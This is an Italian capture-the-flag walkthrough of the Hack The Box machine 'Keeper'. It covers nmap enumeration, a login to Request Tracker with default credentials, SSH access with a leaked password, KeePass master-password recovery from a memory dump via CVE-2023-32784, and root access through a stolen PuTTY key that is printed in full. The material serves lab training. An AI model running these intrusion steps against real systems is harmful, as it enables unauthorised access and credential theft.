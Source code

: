 **TARGET: 10.10.11.227**

# INFORMATION GATHERING

Per prima cosa lanciamo un rapido scan con [Nmap](Note/Tool/Nmap.md) per vedere quali porte e quali servizi girano 
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# nmap -sV -sC --min-rate=5000 10.10.11.227
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 16:17 EDT
Nmap scan report for 10.10.11.227
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

```

Un scan approfondito su tutte le porte non ci da nessun nuovo risultato 

Abbiamo solo 2 porte aperte 

- 22 SSH OpenSSH 8.9p1 ( le versioni con vulnerabilità note sono più vecchie )
- 80 http nginx 1.18.0

# ENUMERATION

## Port 80

Iniziamo visitando http://10.10.11.227:80
![](../zzz_rev/attachments/Keeper.png)
Ci rimanda alla pagina http://tickets.keeper.htb/rt/ per l'apertura di un ticket di supporto IT

Per prima cosa aggiungiamo `tickets.keeper.htb` al nostro `etc/hosts` visto che abbiamo trovato quello che sembra essere un VHOST

![](../zzz_rev/attachments/keeper1.png)Visitando http://tickets.keeper.htb/rt/ siamo di fronte ad un prompt di login 
e vediamo che il software si chiamo RT 4.4.4+dfsg-2ubuntu1 

Cercando su google per  le credenziali di default troviamo [questa](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword#:~:text=The%20topic%20of%20recovering%20root,of%20your%20Unix%20root%20user.) pagina dove vediamo che le credenziali sono 

- root
- password

le proviamo e siamo dentro 
![](../zzz_rev/attachments/keeper2.png)
Guardando nel tab Admin alla sezione User troviamo oltre all'utente root anche l'utente  lnorgaard
![](../zzz_rev/attachments/keeper3.png)Se apriamo lnorgaard troviamo quelle che sembrano delle credenziali 
![](../zzz_rev/attachments/keeper4.png)Ora abbiamo delle credenziali complete 
user:  lnorgaard
passwd: Welcome2023!

Non ci resta che provarle tramite [Ssh](CHEATSHEETS/Tunneling/Ssh.md) visto che ì l'unico servizio attivo 

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Nov  4 21:40:18 2023 from 10.10.14.32
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$
```

E ci prendiamo la nostra user_flag

```bash
lnorgaard@keeper:~$ cat user.txt
f562269f1eeb0cf0cdc7a4ee8254894b
```

# PRIVESC

Vediamo che oltre alla user_flag abbiamo un file .zip
```bash
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

lo scarichiamo sulla nostra macchina e lo estraiamo 

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
```

Abbiamo due file `KeePassDumpFull.dmp` e `passcodes.kdbx

Cercando su goole per le vunerabiltà di keepass e come leggere il file.dump trovo riferimenti alla [CVE 2023-32784](https://cyberment.it/vulnerabilita-informatiche/cve-2023-32784-le-vulnerabilita-nei-password-manager-sono-una-realta/)[questa](https://github.com/CMEPW/keepass-dump-masterkey) pagina git dove abbiamo un tool per estralla

Scarichiamo il tool e lo eseguiamo 
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# python3 poc.py -d KeePassDumpFull.dmp
2023-11-04 17:27:19,054 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Otteniamo queste password ma non sono molto chiare, proviamo a fare una ricerca per queste stringe 
più risultati ci ridanno la parola  `Rødgrød Med Fløde` che sia la password?

Apriamo keepass2 sulla nostra macchina e proviamo a legger il file `passcodes.kdbx`
>[!nota] Se non abbiamo keepass2 lo installiamo con il comando `sudo apt install keepass2`

![](../zzz_rev/attachments/keeper5.png)
e digitiamo `rødgrød med fløde` ( la passowrd è con le iniziali minuscole)

![](../zzz_rev/attachments/keeper6.png)Abbiamo due file. Quello interessante è il primo `keepr.htb` aperto da root che sembra contenere una chiava id_rsa
![](../zzz_rev/attachments/keeper7.png)
Notiamo che queste non sono nel solito formato ma sono nel formato PuttY

Cerando sempre su google come conetterci in ssh con credenziali Putty trovo [questa](https://askubuntu.com/questions/818929/login-ssh-with-ppk-file-on-ubuntu-terminal?source=post_page-----89d93fbff84b--------------------------------) discussione 

Sostanzialmente  KeePass ci ha fornito la chiave RSA SSH.
Dobbiamo utilizzarla come contenuto per il file ".ppk". a questo punto dobbiamo utilizzare puttygen per creare un file .pam  partendo dal file .ppk creato in precedenza

Ci creiamo il nostro file `key.ppk`

```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# nano key.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Utilizziamo puttygen per ricavare il file .pam

```
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# puttygen key.ppk -O private-openssh -o id_key.pam
```

Gli diamo i permessi di lettura

```
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# chmod 400 id_key.pam
```

Ci colleghiamo e prediamo la nostra root_flag
```bash
┌──(root㉿kali)-[/home/kali/htb/keeper]
└─# ssh root@10.10.11.227 -i id_key.pam
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# cat /root/root.txt
8f394dfe47ff0f57fc617551a2605bf1
```
